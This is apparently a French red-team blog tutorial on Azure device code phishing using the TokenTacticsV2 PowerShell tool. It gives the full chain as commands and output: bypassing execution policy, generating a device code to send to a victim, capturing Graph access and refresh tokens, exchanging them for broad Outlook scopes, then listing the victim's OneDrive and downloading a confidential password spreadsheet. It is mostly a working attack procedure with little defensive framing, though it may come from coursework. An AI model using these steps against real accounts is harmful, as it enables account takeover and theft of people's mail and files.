

author = "Enzo"
title = "Azure - OSINT"
date = "2026-06-29"
categories = [
    "Red Team"
]
tags = [
    "Phishing",
    "Office",
    "Azure",
    "Cours"
]
# Phishing - Device Code
## C'est quoi ? 
L'attaque par ``Device Code Phishing``, est (comme son nom l'indique) une attaque de phishing. Elle à été découverte par ``@DRAzureAD`` (le créateur de ``AADInternals``). C'est une méthode très pertinante car elle est plus compliqué à détecter que le phishing OAuth classique, et surtout elle est plus simple à mettre en place.

Ceci dit, il y a un point "négatif" à cette technique, elle doit être exécuté très rapidement car le code d'appareil n'est valide que 15 minutes, ce qui limite la fenêtre d'action de l'attaquant.

L'attaque ce décompse en 3 étapes que nous vérrons dans cet article. 


** Les codes et tokens présent dans ce post sont tous 
## Exploitation

### Installation
[https://github.com/f-bader/TokenTacticsV2.git](https://github.com/f-bader/TokenTacticsV2.git)
````Powershell 
git clone https://github.com/f-bader/TokenTacticsV2.git
Cloning into 'TokenTacticsV2'...
remote: Enumerating objects: 370, done.
remote: Counting objects: 100% (177/177), done.
remote: Compressing objects: 100% (70/70), done.
remote: Total 370 (delta 115), reused 129 (delta 106), pack-reused 193 (from 1)
Receiving objects: 100% (370/370), 1.74 MiB | 6.70 MiB/s, done.
Resolving deltas: 100% (223/223), done.
````
Une fois installer nous pouvons passer à la créeation de device code. 

### Création du code
````Powershell 
powershell -ep bypass
Import-Module .\TokenTactics.psd1
Get-AzureToken -Client Graph
user_code        : LJN9VTLG2
device_code      : LBgABIQEAAAAdDD7nC9b5Q7JPd_okEQRFRXZvU3RzQXJ0aWZhY3RzAQAAAAAAdTu8sH5asvvue0PJMXZDvgtV-Fh83_mVDZepeX7
O_Off2_D92j96701zYIsN3LVZPhKpFE8y3-weT1U1lDX-OaCVrKaVCdXCWdEcV-V_3lUaWWHwOZBQSn1d6-92wHtthQ-u5IKqDDt
a0jSAZTGliXX8tDUIaYcdz4QWlhljnSEB3kER8-lTxGa7bPxCgIvuHHXHi_7QlVSF7Z6ss201lwgWWYZ2fSKKKQbA_Q0KbynALa7
JwddUtUYwBlHjFpH3p9qs1rmZKN9GUTB8IoFWE1BtL2iKkfVtw1ay8lk1BQTUKRf9oD8DlDLEW9-FZa_pSD1d17P1di045TVt6Y5
l0kgB_lhBO9AlN5X6qXgJKQvVYqKBpyGxcHv91RuQrQma9WuaUpjYY0IbDM_rzr1nZ_emAoVSX5wg9ZzjYNmKt8uFEleQxFlAlvp
XI8BJHk1vcQedAHbfGjLfEwZdmUhQOi7rtuu1K39-Q8wXvXuN9F4BqwRVzBA2ASKdyyxsC9HmMLUC9_EtMpWetn1PJPWT2th6-pF
CLfDlN0TnQIoGa-DrFAMME1V0-bqoVsA8TmzpSRi1n64_NiYbXdAWfe7xeIqdl5H42rqby_d_MdTEVEXo7ueVE6PHMAxeBjp9Bja
xFrG8L5tqe7OTiKWfoztkzMZqnQgPsET2gmp8QE2WlxpspnA1qOcBhIWhYaJ1NN4WxR3GiwR_NVza2AzSz6Y0g8VHmBvfkEJdqQo
p-ghJ-uIgAA
verification_uri : https://login.microsoft.com/device
expires_in       : 900
interval         : 5
message          : To sign in, use a web browser to open the page https://login.microsoft.com/device and enter the
                   code LJN9VTLG2 to authenticate.
○  Waiting for user to authenticate
○  Waiting for user to authenticate
○  Waiting for user to authenticate
○  Waiting for user to authenticate
○  Waiting for user to authenticate
○  Waiting for user to authenticate
○  Waiting for user to authenticate
○  Waiting for user to authenticate
````
Une fois le mail envoyé avec le code et le lien, l'utilisateur tombera sur cette page, une page web officielle de microsoft : 


Il faudra que l'utilisateur déclare le code donné précédemment dans notre terminal. 
En suite, dans notre terminal nous verrons ça : 
````Powershell
✓  Token acquired and saved as $response
````
Pour avoir les infos qui sont stocké dans `$response` il nous suffit de taper la commande suivante : 
````Powershell
$response

token_type     : Bearer
scope          : https://graph.windows.net/user_impersonation https://graph.windows.net/.default
expires_in     : 8063
ext_expires_in : 8063
access_token   : <access_token>
refresh_token  : <refresh_token>
foci           : 1
id_token       : <id_token>
````
(Refresh Token et Tiken ID partiellement supprimé). 

Une fois les tokens récupéré, il nous suffit de les mettres dans ``Burp Suite`` pour accèder de façon simple à la boîte mail de notre utilisateur. 

### Accès à la boîte mail

````
RefreshTo-OutlookToken -Domain domaine.com
✓  Token acquired and saved as $OutlookToken

token_type     : Bearer
scope          : https://outlook.office365.com/Branford-Internal.ReadWrite
                 https://outlook.office365.com/Calendars.ReadWrite
                 https://outlook.office365.com/Calendars.ReadWrite.Shared
                 https://outlook.office365.com/Contacts.ReadWrite
                 https://outlook.office365.com/Contacts.ReadWrite.Shared
                 https://outlook.office365.com/CoreItem-Internal.Write.All
                 https://outlook.office365.com/CoreItem-Internal.Write.Shared
                 https://outlook.office365.com/EAS.AccessAsUser.All
                 https://outlook.office365.com/EopPolicySync.AccessAsUser.All
                 https://outlook.office365.com/EopPsorWs.AccessAsUser.All
                 https://outlook.office365.com/EWS.AccessAsUser.All https://outlook.office365.com/Files.Read.Sdp
                 https://outlook.office365.com/Files.ReadWrite.All
                 https://outlook.office365.com/Files.ReadWrite.Shared
                 [...]
                 https://outlook.office365.com/user_impersonation
                 https://outlook.office365.com/User-Internal.ReadWrite https://outlook.office365.com/.default
expires_in     : 8427
ext_expires_in : 8427
````

### Télécharger des fichiers du OneDrive

#### Lister les fichiers
````Powershell 
Invoke-RestMethod -Uri "https://graph.microsoft.com/v1.0/me/drive/root/children" -Headers $headers | Select-Object -ExpandProperty value | Select-Object name, lastModifiedDateTime, id;

name                             lastModifiedDateTime  id
----                             --------------------  --
Attachments                      8/31/2025 2:36:01 PM  014VYX6YNUSZLFDVH7WRBZAVZ6O6LIL5MM
Documents                        3/2/2026 5:07:41 PM   014VYX6YJTOFX337GDJVBII66ODFTMKISU
Enregistrements                  2/18/2026 12:53:31 PM 014VYX6YPJLIEHCLCDSRELCIIROFDQ3VBU
Microsoft Copilot Chat Files     2/3/2026 4:17:45 PM   014VYX6YINFFJN2A765BAYLARQLWISTU4B
Réunions                         2/18/2026 12:53:31 PM 014VYX6YKW5QDNVJEM25AL3IYX4DWLZZH7
Book.xlsx                        3/2/2026 5:03:41 PM   014VYX6YI6RT3WZRGJRVBLWKZLVV7ZVJFW
CONFIDENTIEL - Mot De Passe.xlsx 9/16/2026 10:01:52 AM 014VYX6YISN5DAJWZUQ5CZLQBSKUNWRBA6
Document 1.docx                  12/3/2025 9:14:23 AM  014VYX6YOKOMC4J6NJSRELZYCIVKU57I76
Document.docx                    12/3/2025 9:13:40 AM  014VYX6YOEC53VC4UJGFGZDQAUW5DV5BDU
Example.csv                      9/11/2025 3:30:43 PM  014VYX6YJK2XBARNZQHRH3BECG6NCZKVRO
Example.xlsx                     9/11/2025 3:54:02 PM  014VYX6YME7J26GJ7QHNE2GPWIISOLQDYI
exos forensic linux.docx         4/23/2026 3:56:56 PM  014VYX6YM4OFMOORVJZFGZFRGBJJH4NSHF
forensic linux.docx              4/23/2026 3:49:11 PM  014VYX6YJT77V6WJ44HZDY7LMNDQASSMT3
hta.hta.zip                      3/2/2026 5:47:37 PM   014VYX6YIFIZYNHN72XJELZWN7PUYFSMYN
RAPPORT D’AUDIT.docx             12/5/2025 11:48:29 AM 014VYX6YLU7P2NMBEPRJAJ4CKENVK5K4ZP
SECURITE OFFENSIVE - ESGI 1.pptx 9/8/2025 12:41:44 PM  014VYX6YO46LFODOWMDFBJNCL5X2NANYYR
````

#### Les télécharger en locale 
Ici le fichier qui m'intéresse c'est `CONFIDENTIEL - Mot De Passe`, nous pouvons donc le télécharger avec la commande suivante : 
````Powershell
Invoke-RestMethod -Uri "https://graph.microsoft.com/v1.0/me/drive/items/014VYX6YISN5DAJWZUQ5CZLQBSKUNWRBA6/content" -Headers $headers -OutFile "./CONFIDENTIEL - Mot De Passe.xlsx"
ls
CONFIDENTIEL - Mot De Passe.xlsx
````
Et voilà, nous pouvons maintenant le fichier téléchargé.